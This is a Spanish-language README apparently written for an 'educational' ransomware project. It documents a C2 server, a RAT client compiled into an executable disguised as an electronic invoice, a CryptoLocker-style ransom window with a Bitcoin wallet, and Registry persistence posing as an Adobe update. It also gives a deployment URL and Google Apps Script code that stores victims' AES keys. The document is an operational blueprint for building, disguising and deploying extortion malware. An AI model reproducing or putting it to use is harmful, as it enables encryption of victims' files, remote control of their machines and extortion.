



# Informe Técnico: Simulación de Amenaza Persistente Avanzada (Ransomware)
## Análisis de Ingeniería, Criptografía y Persistencia

---

## 1. Información General del Proyecto

| Parámetro | Detalle Técnico |
|-----------|-----------------|
| **Nombre del Artefacto** | C2 CryptoLocker Simulation |
| **Versión** | 1.0.0 (Release Candidate) |
| **Clasificación** | Software Educativo / Red Team Tool |
| **Arquitectura** | Cliente-Servidor (Asíncrona sobre WebSocket) |
| **Estándares Criptográficos** | AES-256-CBC, RSA-2048-OAEP |
| **Persistencia** | Registry Run Keys (Windows), Cloud Fallback (Google Script) |

---

## 2. Arquitectura del Sistema

### 2.1 Diagrama UML de Componentes



### 2.2 Diagrama de Secuencia - Flujo de Cifrado



---

## 3. Protocolos de Comunicación

### 3.1 Protocolos Utilizados

| Protocolo | Uso | Puerto |
|-----------|-----|--------|
| **HTTP** | API REST para dashboard | 3000 |
| **WebSocket** | Comunicación bidireccional Cliente-Servidor | 3000 |
| **Socket.IO** | Capa sobre WebSocket con reconexión automática | 3000 |

### 3.2 Algoritmos de Cifrado

| Algoritmo | Uso | Tamaño Clave |
|-----------|-----|--------------|
| **AES-256-CBC** | Cifrado de archivos y comunicaciones | 256 bits |
| **RSA-OAEP** | Intercambio seguro de claves AES | 2048 bits |

---

## 4. Dependencias y Librerías

### 4.1 Dependencias de Producción (Node.js)

| Librería | Versión | Propósito |
|----------|---------|-----------|
| `express` | ^4.18.2 | Framework HTTP ligero que permite crear rutas REST, servir archivos estáticos y manejar middleware para el servidor C2. |
| `socket.io` | ^4.7.2 | Implementa un servidor WebSocket con reconexión automática y eventos personalizados para la comunicación en tiempo real entre cliente y servidor. |
| `socket.io-client` | ^4.8.1 | Cliente JavaScript que se conecta al servidor Socket.IO, gestiona eventos y permite la interacción bidireccional desde el RAT. |

Node.js es el entorno de ejecución de JavaScript del lado del servidor que permite ejecutar código JavaScript fuera del navegador. En este proyecto se utiliza para crear el servidor C2, gestionar sockets, ejecutar comandos del sistema y servir el panel web de control.

### 4.2 Dependencias de Desarrollo

| Librería | Versión | Propósito |
|----------|---------|-----------|
| `pkg` | ^5.8.1 | Herramienta que empaqueta la aplicación Node.js (`cliente.js`) en un ejecutable autónomo `.exe` para Windows, facilitando la distribución sin necesidad de Node.js instalado. |

### 4.3 Dependencias Python (Nota de Rescate)

| Librería | Propósito |
|----------|-----------|
| `PyQt6` | Framework GUI que permite crear la ventana de rescate con estilo moderno y controles interactivos. |
| `PyInstaller` | Convierte el script Python (`interfazdeaviso.py`) en un ejecutable `.exe` para su ejecución en la máquina víctima sin requerir Python instalado. |

---

## 5. Estructura de Directorios

```
C2/
├── server.js              # Servidor C2 principal
├── cliente.js             # Cliente RAT (se compila a .exe)
├── interfazdeaviso.py     # Nota de rescate (PyQt6)
├── build.js               # Script de compilación
├── render.yaml            # Configuración para Render.com
├── package.json           # Dependencias Node.js
│
├── public/                # Dashboard Web
│   ├── index.html         # Panel principal
│   ├── consola.html       # Consola remota
│   ├── css/               # Estilos
│   └── js/                # JavaScript frontend
│
├── keys/                  # Almacén de claves (NO subir a Git)
│   ├── [hostname]_key.txt       # Clave AES por cliente
│   ├── [hostname]/              # Metadatos de cifrado
│   ├── server_private.pem       # Clave RSA privada
│   └── server_public.pem        # Clave RSA pública
│
├── dist/                  # Ejecutables compilados
│   └── Factura_Electronica_Enero2026.exe
│
└── build/                 # Recursos de compilación
```

### 5.1 Directorio `public/` (Dashboard Web)
Este directorio contiene los archivos estáticos servidos por Express para la interfaz de administración.
- **index.html**: Tablero principal que muestra la lista de víctimas conectadas, notificaciones y estado del servidor.
- **consola.html**: Terminal web emulada que permite enviar comandos CMD directamente a una víctima seleccionada.
- **css/**: Hojas de estilo que definen la apariencia "hacker/dark mode" de la interfaz.
- **js/**: Scripts del lado del cliente (navegador) que se conectan vía Socket.IO al servidor para recibir actualizaciones en tiempo real.

### 5.2 Directorio `keys/` (Infraestructura PKI)
**IMPORTANTE**: Esta carpeta contiene el material criptográfico sensible y NUNCA debe incluirse en control de versiones.
- **server_private.pem**: Clave privada RSA del servidor. Se usa para descifrar la clave AES que envía el malware al infectar una máquina.
- **server_public.pem**: Clave pública RSA. Se incrusta o envía al cliente para que este pueda cifrar su clave AES de forma segura antes de enviarla.
- **[hostname]_key.txt**: Respaldo en texto plano de la clave AES-256 de una víctima específica.
- **[hostname]/ (Directorio)**: Contiene archivos JSON con los metadatos (IV, ruta original) de cada archivo cifrado de esa víctima.

### 5.3 Directorio `dist/` (Artefactos de Compilación)
Destino de los ejecutables generados. El sistema de construcción (`build.js`) intenta generar dos binarios complementarios:

1.  **Factura_Electronica_Enero2026.exe**: El Cliente C2 (Node.js). Es el malware principal que establece persistencia y conexión.
2.  **Comprobante_Pago_2026.exe**: La Nota de Rescate (Python). Se ejecuta en la fase final para mostrar el mensaje de extorsión en pantalla completa.

### 5.4 Directorio `build/` y Proceso de Compilación
El script automatizado `build.js` orquesta la creación de ambos binarios:

1.  **Limpieza**: Intenta eliminar ejecutables antiguos (`taskkill` si están corriendo para desbloquear archivos).
2.  **Fase 1 (Node.js)**: Usa `pkg` generada el cliente (`Factura...`).
3.  **Fase 2 (Python)**: Invoca `pyinstaller` para generar la nota de rescate (`Comprobante...`).
    *   *Requisito*: `pyinstaller` debe estar instalado y accesible en el PATH del sistema (`pip install pyinstaller`).
    *   *Fallback*: Si Python no está disponible, el build continúa solo con el cliente (mostrando una advertencia).
4.  **Ofuscación**: `pkg` empaqueta el código fuente dentro del binario.
5.  **Renombrado Inteligente**: Si el nombre "Factura" está bloqueado, prueba nombres alternativos ("Estado_Cuenta", etc.).

---

## 6. Documentación de Archivos

### 6.1 server.js - Servidor C2

**Ubicación:** `/server.js`  
**Líneas:** ~1040  
**Propósito:** Servidor central que gestiona clientes, claves y comunicaciones

#### Funciones Principales:

| Función | Parámetros | Retorno | Descripción Detallada |
|---------|------------|---------|-----------------------|
| `logServer` | `(msg, type='info')` | `void` | Envía logs formateados a la consola del servidor y a todos los dashboards web conectados vía Socket.IO. |
| `generarClavesRSA` | `()` | `void` | Genera o carga par de claves RSA-2048. Si las claves ya existen en `keys/`, las lee; si no, crea nuevas y las guarda. |
| `descifrarConRSA` | `(dataBase64)` | `Buffer` | Descifra datos recibidos (como la clave AES del cliente) usando la clave privada del servidor. |
| `descifrarAES` | `(hex, key, iv)` | `String` | Descifra payloads encriptados con AES-256-CBC usando la clave específica de ese cliente. |
| `generarClaveCliente`| `(id)` | `Buffer` | Crea una clave AES aleatoria de 32 bytes para un nuevo cliente y la guarda en `keys/[id]_key.txt`. |
| `recibirConexion` | `(socket)` | `void` | Configura todos los listeners de eventos (`registrar-cliente`, `comando-resultado`, etc.) para una nueva conexión Socket.IO. |
| `ejecutarComando` | `(cmd)` | `Promise` | Ejecuta comandos shell en el servidor (uso interno o debugging) usando `child_process.exec`. |

#### Endpoints API REST:

| Método | Endpoint | Descripción |
|--------|----------|-------------|
| GET | `/api/status` | Estado del servidor |
| GET | `/api/clientes` | Lista de clientes conectados |
| POST | `/api/ejecutar-remoto` | Ejecutar comando en cliente |
| POST | `/api/escanear-archivos` | Escanear archivos en cliente |
| POST | `/api/cifrar-archivos` | Iniciar cifrado en cliente |
| POST | `/api/descifrar-archivos` | Descifrar archivos en cliente |
| POST | `/api/mostrar-nota` | Mostrar nota de rescate |

#### Eventos Socket.IO (Servidor):

| Evento | Dirección | Descripción |
|--------|-----------|-------------|
| `registrar-cliente` | ← Cliente | Cliente se registra con info sistema |
| `registrado` | → Cliente | Confirmación con clave AES |
| `ejecutar-comando` | → Cliente | Envía comando a ejecutar |
| `comando-resultado` | ← Cliente | Resultado del comando |
| `escanear-archivos` | → Cliente | Solicita escaneo |
| `archivos-escaneados` | ← Cliente | Resultado del escaneo |
| `cifrar-archivos-objetivo` | → Cliente | Inicia cifrado |
| `cifrado-completado` | ← Cliente | Confirma cifrado |
| `guardar-metadatos-cifrado` | ← Cliente | Metadatos de cada archivo cifrado |

> **📸 CAPTURA REQUERIDA:** Dashboard mostrando clientes conectados

----

#### Ejemplo de uso de la API REST

```bash
# Obtener estado del servidor
curl http://localhost:3000/api/status

# Listar clientes conectados
curl http://localhost:3000/api/clientes

# Ejecutar comando remoto en un cliente (reemplazar <clientId> y <cmd>)
curl -X POST -H "Content-Type: application/json" -d '{"clientId":"<clientId>","command":"whoami"}' http://localhost:3000/api/ejecutar-remoto
```

#### Ejemplo de uso de eventos Socket.IO (cliente)

```javascript
const socket = io('http://localhost:3000');

socket.on('registrar-cliente', data => {
  console.log('Cliente registrado:', data);
});

socket.emit('ejecutar-comando', { clientId: 'abc123', command: 'dir' });

socket.on('comando-resultado', result => {
  console.log('Resultado del comando:', result);
});
```

#### Ejemplo de compilación con `build.js`

```bash
# Preparar entorno
npm install

# Compilar cliente a ejecutable
npm run build-client

# Verificar salida en la carpeta dist/
ls dist/
```

---

### 6.2 cliente.js - Cliente RAT

**Ubicación:** `/cliente.js`  
**Líneas:** ~1239  
**Propósito:** Agente que se ejecuta en la víctima, recibe comandos y cifra archivos

#### Constantes de Configuración:

| Constante | Valor | Descripción |
|-----------|-------|-------------|
| `SERVERS` | Array | Lista de servidores (Render → Local) |
| `INSTALL_DIR` | `%APPDATA%\AdobeReader` | Directorio de persistencia |
| `EXE_NAME` | `Factura_Electronica_Enero2026.exe` | Nombre del ejecutable |
| `NOTA_NAME` | `Comprobante_Pago_2026.exe` | Nombre de nota de rescate |
| `REG_VALUE` | `AdobeAcrobatUpdate` | Valor en registro Windows |

#### Funciones Principales:

| Función | Parámetros | Retorno | Descripción Detallada |
|---------|------------|---------|-----------------------|
| `checkIfAdmin` | `()` | `Promise<bool>` | Ejecuta un comando de prueba (`net session`) para verificar si el proceso tiene privilegios de administrador. |
| `requestElevation` | `()` | `void` | Lanza un proceso hijo con PowerShell `Start-Process -Verb RunAs` para pedir elevación UAC. Si falla, continúa sin privilegios. |
| `instalarPersistencia` | `()` | `void` | Copia el ejecutable a `%APPDATA%` y añade una entrada al Registro (`HKCU...Run`) para inicio automático. |
| `cifrarConAES` | `(data, key)` | `Buffer` | Función core de criptografía. Cifra datos usando AES-256-CBC con un IV aleatorio de 16 bytes que se prepende al resultado. |
| `cifrarConRSA` | `(data, pubKey)` | `Buffer` | Cifra la clave AES del cliente usando la clave pública del servidor para enviarla de forma segura durante el registro. |
| `obtenerInfoSistema` | `()` | `Object` | Retorna objeto con: hostname, plataforma, arquitectura, CPUs, memoria total/libre y uptime. |
| `ejecutarComando` | `(cmd)` | `void` | Interpreta comandos recibidos. Soporta comandos nativos (`dir`, `ipconfig`) y especiales (`c2:scan`, `c2:encrypt`). |
| `escanearArchivos` | `(dirs, exts)` | `Array` | Recorre recursivamente directorios buscando archivos que coincidan con las extensiones objetivo (ej. docx, xlsx). |
| `cifrarArchivo` | `(ruta, clave)` | `void` | Lee archivo, lo cifra con AES, añade extensión `.cript`, elimina el original y envía metadatos al servidor. |
| `conectar` | `()` | `void` | Bucle principal de conexión Socket.IO. Maneja eventos de reconexión, registro inicial y recepción de comandos. |
| `cambiarServidor` | `()` | `void` | Si la conexión falla repetidamente, rota la URL de conexión entre la lista `SERVERS` (Render -> Local). |

#### Comandos C2 Especiales:

| Comando | Descripción |
|---------|-------------|
| `c2:scan` | Escanea archivos en directorio actual |
| `c2:encrypt [N]` | Cifra hasta N archivos |
| `c2:encrypt-ext ext1,ext2` | Cifra solo extensiones específicas |
| `c2:encrypt-dir ruta` | Cifra directorio específico |
| `c2:decrypt` | Descifra todos los archivos .cript |
| `c2:ransom` | Muestra nota de rescate |
| `c2:help` | Lista comandos disponibles |

> **📸 CAPTURA REQUERIDA:** Cliente ejecutándose y conectado al servidor

---

### 6.3 interfazdeaviso.py - Nota de Rescate

**Ubicación:** `/interfazdeaviso.py`  
**Líneas:** ~560  
**Propósito:** Ventana de rescate estilo CryptoLocker mostrada a la víctima

#### Clase Principal:

**`VentanaCryptoLocker`** (líneas 56-542)

| Método | Líneas | Descripción |
|--------|--------|-------------|
| `__init__(self)` | 57-65 | Inicializa configuración y temporizador |
| `inicializar_ui(self)` | 67-430 | Construye toda la interfaz gráfica |
| `iniciar_temporizador(self)` | 432-435 | Inicia cuenta regresiva |
| `actualizar_tiempo(self)` | 437-442 | Actualiza cada segundo |
| `actualizar_texto_timer(self)` | 444-448 | Formatea tiempo restante |
| `browse_file(self)` | 450-469 | Selector de archivo para descifrar |
| `decrypt_one_file(self)` | 471-542 | Descifra un archivo como prueba |

#### Parámetros de Línea de Comandos:

```bash
python interfazdeaviso.py --wallet ADDR --amount 2 --hours 72 --files 150
```

| Parámetro | Default | Descripción |
|-----------|---------|-------------|
| `--wallet` | `1KP72f...` | Dirección Bitcoin |
| `--amount` | `2` | Cantidad a pagar |
| `--hours` | `50` | Horas restantes |
| `--files` | `0` | Archivos cifrados |
| `--title` | `CryptoLocker` | Título de ventana |

> **📸 CAPTURA REQUERIDA:** Ventana de nota de rescate

---

### 6.4 build.js - Script de Compilación

**Ubicación:** `/build.js`  
**Líneas:** ~80  
**Propósito:** Compila cliente.js a ejecutable Windows

#### Flujo de Compilación:

1. Crear directorio `dist/` si no existe
2. Intentar terminar procesos anteriores (`taskkill`)
3. Compilar con `pkg` para Windows x64
4. Probar nombres alternativos si falla

#### Nombres de Salida (orden de prioridad):

1. `Factura_Electronica_Enero2026.exe`
2. `Estado_Cuenta_2026.exe`
3. `Comprobante_Bancario_2026.exe`
4. `cliente_[timestamp].exe` (fallback)

---

### 6.5 public/ - Dashboard Web

#### index.html - Panel Principal
- Vista de clientes conectados
- Botones de acciones rápidas
- Log de actividad en tiempo real

#### consola.html - Consola Remota
- Terminal interactiva por cliente
- Historial de comandos
- Output en tiempo real

> **📸 CAPTURAS REQUERIDAS:**
> - Dashboard principal
> - Consola con comandos ejecutados
> - Lista de archivos escaneados

---

### 6.6 keys/ - Almacén de Claves

| Archivo | Contenido |
|---------|-----------|
| `server_private.pem` | Clave RSA privada (2048 bits) |
| `server_public.pem` | Clave RSA pública |
| `[hostname]_key.txt` | Clave AES-256 del cliente |
| `[hostname]_sysinfo.json` | Información del sistema víctima |
| `[hostname]/` | Metadatos de archivos cifrados |

> ⚠️ **IMPORTANTE:** Esta carpeta está en `.gitignore` y NO debe subirse a repositorios

---

## 7. Flujo de Datos Cifrado

### 7.1 Estructura de Archivo Cifrado

```
┌─────────────────────────────────────────┐
│         Archivo.txt.cript               │
├─────────────────────────────────────────┤
│ IV (16 bytes) │ Datos Cifrados AES-CBC  │
└─────────────────────────────────────────┘
```

### 7.2 Proceso de Cifrado



---

## 8. Seguridad Implementada

| Característica | Implementación |
|----------------|----------------|
| Cifrado simétrico | AES-256-CBC con IV único por archivo |
| Intercambio de claves | RSA-2048-OAEP para enviar claves AES |
| Comunicación segura | WebSocket sobre HTTPS (en producción) |
| Persistencia | Registro de Windows (Run key) |
| Elevación UAC | Solicitud con fallback sin privilegios |

---

## 9. Despliegue

### 9.1 Local
```bash
npm install
npm start
```

### 9.2 Render (Producción)
- URL: `https://proyectoseguridad-pnzo.onrender.com`
- Archivo de configuración: `render.yaml`
- Puerto: Variable de entorno `PORT`

---

## 10. Capturas de Pantalla Requeridas

Para completar este manual, incluir capturas de:

1. [ ] Dashboard principal con clientes conectados
2. [ ] Consola remota ejecutando comandos
3. [ ] Resultado de escaneo de archivos
4. [ ] Proceso de cifrado completado
5. [ ] Nota de rescate mostrándose
6. [ ] Archivos .cript generados
7. [ ] CrypTool verificando el cifrado AES-CBC
8. [ ] Registro de Windows mostrando persistencia
9. [ ] Carpeta keys/ con metadatos

---

## 11. Referencias

- [Socket.IO Documentation](https://socket.io/docs/)
- [Node.js Crypto Module](https://nodejs.org/api/crypto.html)
- [AES-CBC Encryption](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#CBC)
- [PyQt6 Documentation](https://www.riverbankcomputing.com/static/Docs/PyQt6/)

---

## 12. Glosario de Términos Técnicos

| Término | Definición en el Contexto del Proyecto |
|---------|----------------------------------------|
| **Endpoint (Punto Final)** | Punto de acceso en el servidor (URL) que permite realizar una operación específica (ej. `/api/clientes`) mediante peticiones HTTP. |
| **Payload (Carga Útil)** | Datos que se envían dentro de una petición o evento. Por ejemplo, al cifrar, la carga útil contiene el ID del cliente y la clave. |
| **Evento Socket.IO** | Mensaje específico enviado en tiempo real. A diferencia de HTTP, los eventos pueden iniciarse tanto desde el servidor como desde el cliente en cualquier momento. |
| **Vector de Inicialización (IV)** | Dato aleatorio de 16 bytes usado en el cifrado AES-CBC para asegurar que el mismo archivo cifrado dos veces produzca resultados diferentes, fortaleciendo la seguridad. |
| **Fallback (Respaldo)** | Mecanismo de seguridad que permite al cliente cambiar automáticamente a un servidor secundario (Local) si el servidor principal (Render.com) no responde. |
| **Persistencia** | Capacidad del malware para sobrevivir a reinicios del sistema. Aquí se logra modificando el Registro de Windows (`Run key`) para iniciarse automáticamente con el sistema operativo. |
| **Control de Cuentas de Usuario (UAC)** | Sistema de seguridad de Windows que pide permiso al usuario para cambios importantes. El malware intenta solicitar elevación (Administrador), pero funciona en modo restringido si se deniega. |
| **Infraestructura de Clave Pública (PKI)** | Sistema que usa un par de claves (pública y privada) para comunicaciones seguras. El servidor guarda la clave privada (secreta) y los clientes usan la pública para cifrar y enviar sus claves AES. |
| **Command and Control (C2)** | Servidor centralizado desde donde el operador educativo envía instrucciones a las máquinas infectadas y recibe las claves de cifrado. |

---

## 13. Análisis de Flujo Completo (Lifecycle)

Este diagrama describe el ciclo de vida completo de la amenaza, desde la ejecución inicial hasta la demanda de rescate.

### 13.1 Fase 1: Infección e Instalación
1.  **Ejecución Inicial**: La víctima ejecuta `Factura_Electronica_Enero2026.exe` (camuflado).
2.  **Evasión de UAC**: El malware verifica privilegios. Si no es Admin, solicita elevación mediante `Start-Process -Verb RunAs`.
    *   *Si el usuario acepta*: Se reinicia con privilegios altos.
    *   *Si el usuario deniega*: Continúa la ejecución con privilegios limitados (aún puede cifrar archivos del usuario).
3.  **Persistencia**:
    *   Se copia a sí mismo a `%APPDATA%\AdobeReader\Actualizacion.exe`.
    *   Escribe en el Registro: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` key `AdobeAcrobatUpdate`.

### 13.2 Fase 2: Conexión C2 y Handshake
1.  **Conexión**: Inicia conexión Socket.IO hacia `https://[RENDER-URL]`.
2.  **Fallback**: Si falla, reintenta con servidores locales definidos en la lista `SERVERS`.
3.  **Intercambio de Claves (Handshake)**:
    *   Servidor envía `server_public.pem` (RSA).
    *   Cliente genera `AES_KEY` (256-bit) aleatoria.
    *   Cliente cifra `AES_KEY` con RSA y la envía al servidor.
    *   Servidor descifra y almacena la `AES_KEY` asociada a ese ID de cliente.
4.  **Perfilado**: Cliente envía `sysinfo` (Hostname, IP, OS) cifrado con su nueva `AES_KEY`.

### 13.3 Fase 3: Comando y Control (Idle)
*   El cliente entra en modo de espera (Heartbeat).
*   El operador puede enviar comandos:
    *   `c2:scan`: Lista archivos interesantes (docx, pdf, xlsx).
    *   `dir`, `ipconfig`: Comandos nativos de consola.

### 13.4 Fase 4: Impacto (Cifrado)
1.  **Orden de Cifrado**: Operador envía comando `c2:cifrar`.
2.  **Proceso Local**:
    *   Genera un IV único para *cada* archivo.
    *   Lee el archivo original -> Cifra con AES-256-CBC + IV -> Escribe `.cript`.
    *   Borra el archivo original.
    *   Envía metadatos (IV + Ruta Original) al servidor para custodia.
3.  **Nota de Rescate**:
    *   Ejecuta `interfazdeaviso.py` (compilado) que bloquea la pantalla o muestra la demanda.
    *   Contador regresivo inicia.

---

## 14. Especificación Criptográfica Detallada

El sistema utiliza un esquema de **Cifrado Híbrido** para garantizar seguridad y rendimiento.

### 14.1 Intercambio de Claves (RSA)
El cifrado asimétrico RSA se utiliza únicamente para proteger la clave simétrica durante el tránsito.

*   **Algoritmo**: RSA-2048
*   **Padding**: OAEP (Optimal Asymmetric Encryption Padding) con SHA-256.
*   **Formato**: PEM (PKCS#8 para privada, SPKI para pública).
*   **Justificación**: RSA es lento para cifrar grandes volúmenes de datos (archivos), pero excelente para cifrar pequeños secretos (claves AES).

### 14.2 Cifrado de Archivos (AES)
El cifrado simétrico AES se utiliza para el contenido de los archivos debido a su velocidad.

*   **Algoritmo**: AES-256-CBC (Cipher Block Chaining).
*   **Clave**: 32 bytes (256 bits), generada aleatoriamente por el cliente en memoria (`crypto.randomBytes(32)`).
*   **IV (Vector de Inicialización)**: 16 bytes, único por archivo.
    *   *Importancia*: Evita que dos archivos idénticos tengan el mismo texto cifrado.
    *   *Almacenamiento*: Se prepende (escribe al inicio) del archivo cifrado (bytes 0-15).
*   **Padding**: PKCS#7 (nativo de Node.js crypto).

### 14.3 Estructura del Payload Cifrado
Para cualquier comunicación sensible (ej. `sysinfo`), se envía el siguiente JSON:

```json
{
  "encrypted": true,
  "algorithm": "aes-256-cbc",
  "iv": "3a1f...",   // Hexadecimal (16 bytes)
  "data": "A9b2..."  // Base64 (contenido cifrado)
}
```

---

## 15. Persistencia en la Nube (Google Apps Script)

Dado que plataformas PaaS como Render pueden reiniciar el servidor y borrar archivos locales (`keys/`), se implementa una "base de datos" sin servidor utilizando Google Sheets y Apps Script.

### 15.1 Arquitectura
1.  **Google Sheet**: Almacena Claves AES, Hosts y Logs.
2.  **Apps Script (doPost/doGet)**: Actúa como API REST.
3.  **Server C2**: Envía copias de seguridad cada vez que un cliente se registra.

### 15.2 Código Implementación (.gs)
Para desplegar esta solución, crear un nuevo Apps Script y pegar el siguiente código:

```javascript
// Google Apps Script - C2 Persistence API
const SHEET_ID = "TU_ID_DE_HOJA_DE_CALCULO";

function doPost(e) {
  const lock = LockService.getScriptLock();
  lock.tryLock(10000);
  
  try {
    const data = JSON.parse(e.postData.contents);
    const sheetName = data.type || "Logs"; // 'Keys', 'Clients', 'Logs'
    const ss = SpreadsheetApp.openById(SHEET_ID);
    let sheet = ss.getSheetByName(sheetName);
    
    if (!sheet) {
      sheet = ss.insertSheet(sheetName);
      // Headers automáticos
      sheet.appendRow(["Timestamp", ...Object.keys(data.payload)]);
    }
    
    // Guardar datos
    const row = [new Date(), ...Object.values(data.payload)];
    sheet.appendRow(row);
    
    return ContentService.createTextOutput(JSON.stringify({result: "success"}));
  } catch (e) {
    return ContentService.createTextOutput(JSON.stringify({result: "error", error: e.toString()}));
  } finally {
    lock.releaseLock();
  }
}

function doGet(e) {
  // Función para recuperar claves al reiniciar el servidor
  return ContentService.createTextOutput(JSON.stringify({status: "alive"}));
}
```

---

## 16. Guía de Solución de Problemas (Troubleshooting)

### 16.1 El Cliente no conecta
*   **Causa**: URL de Render incorrecta o dormida.
*   **Solución**: Verificar `SERVERS` en `cliente.js`. Acceder a la URL en navegador para "despertar" la instancia de Render.

### 16.2 "Pkg Error: Targets not specified"
*   **Causa**: Versión de Node.js incompatible con `pkg`.
*   **Solución**: Usar Node v18 o inferior. Ejecutar `pkg . --targets node18-win-x64`.

### 16.3 Archivos no se cifran
*   **Causa**: Permisos de Windows o antivirus bloqueando escritura.
*   **Solución**: Revisar logs de consola. Ejecutar como Administrador (ver Fase 1 del Lifecycle).

### 16.4 Clave AES visible en interfaz pero incorrecta
*   **Causa**: Reinicio del servidor Render.
*   **Solución**: Verificar persistencia en Google Sheets. Si el servidor reinició, las claves en memoria se perdieron y deben recuperarse de la hoja de cálculo.

---

**Documento generado:** 2026-01-07  
**Autor:** Sistema Automatizado  
**Versión del Proyecto:** 1.0.0
